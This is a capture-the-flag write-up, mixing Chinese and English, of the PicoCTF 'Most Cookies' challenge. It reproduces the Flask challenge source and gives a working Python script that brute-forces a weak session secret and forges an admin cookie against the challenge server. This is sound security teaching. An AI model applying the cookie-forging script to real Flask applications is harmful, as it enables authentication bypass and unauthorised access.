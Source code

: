 ```yaml
---
title: PicoCTF - Most Cookies
tags: [PicoCTF, CTF, Web]

---
```


# PicoCTF - Most Cookies
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Python Flask session 學習心得](https://vocus.cc/article/634c1c7efd89780001237de9)
> 在Flask將資料儲存在session這個object裡面時，可看成是儲存在client端，因為資料其實是存在web server，每次新增內容到session就會新增一個新的cookie(cryptographically-signed cookies)，並透過secret_key做簽章。需注意的是這所謂的「secret_key」並不是用於加密(切勿儲存機密資料)，而是用來做數位簽章確認資料的完整性，簡單說是每個人都可以知道cookie裡面的資料，但只有server知道cookie是否被串改，如果被串改就無法登入該帳戶。

## Source code
:::spoiler Source Code
```python=
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```
:::
## Recon
這一題看起來很簡單，我一開始也想說只要用Burp的intruder爆破name就好，不過看了一下sauce，發現他還有一個驗證機制，就是判斷cookie的value要是admin，但看了一下cookie的形式發現有點類似JWT的感覺`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJEZ8A.b5j77V6nA0V6dzYvM_hg3yYRgJc`(當然它不是JWT只是形式有點像)，尤其是這學期修了CNS，所以對JWT直覺有點難搞，果不其然，在sauce的第7行有設定`secret_key`當作session簽章的依據，然後在`/display`的地方進行驗證
1. `name`參數要有值且必須是`cookie_names` list的其中一種
2. session的`very_auth`的value一定要是admin
3. session的signature也要forge

## Exploit - Brute Force
```python=
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	for name in cookie_names:
		session = {}
		session["very_auth"] = "admin"
		cookie = encodeFlaskCookie(name, session)
		r = requests.get("http://mercury.picoctf.net:6259/display", cookies={"session":cookie}, allow_redirects=False)
		if "picoCTF" in r.text:
			print(r.text)
			break
```
## Reference
[picoCTF 2021 Most Cookies](https://youtu.be/8DrqOFr_SV8)
[manageFlaskSession.py source code](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)
[Python Web Flask — 如何透過Form取得資料](https://medium.com/seaniap/python-web-flask-如何透過form取得資料-7a63ebf9ff1f)
[[Flask教學] Flask Session 使用方法和介紹](https://www.maxlist.xyz/2019/06/29/flask-session/)
[Most Cookies - Write up 1](https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies)
[Most Cookies - Write up 2](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md)